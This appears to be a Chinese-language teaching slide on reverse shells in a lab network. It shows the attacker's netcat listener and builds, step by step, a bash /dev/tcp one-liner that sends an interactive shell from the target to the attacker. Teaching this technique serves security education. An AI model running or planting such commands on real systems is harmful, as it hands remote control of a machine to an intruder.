

# 反向shell
客户端监听，Server向Client建立连接
攻击机10.0.2.4（客户端）: nc -lvp 4567
服务器10.0.2.8:
 bash –i >/dev/tcp/10.0.2.4/4567  将bash的输出重定向到攻击机的4567，标准输出用描述符1表示，bash-i: 代表交互性
 bash –i >/dev/tcp/10.0.2.4/4567  2>&1 将错误输出也重定向到TCP连接
bash –i >/dev/tcp/10.0.2.4/4567  2>&1  0<&1文件描述符0表示标准输入，表示从tcp连接获得shell的输入

 在攻击机上输入命令，该命令在靶机上运行，并且在攻击机上显示命令执行的结果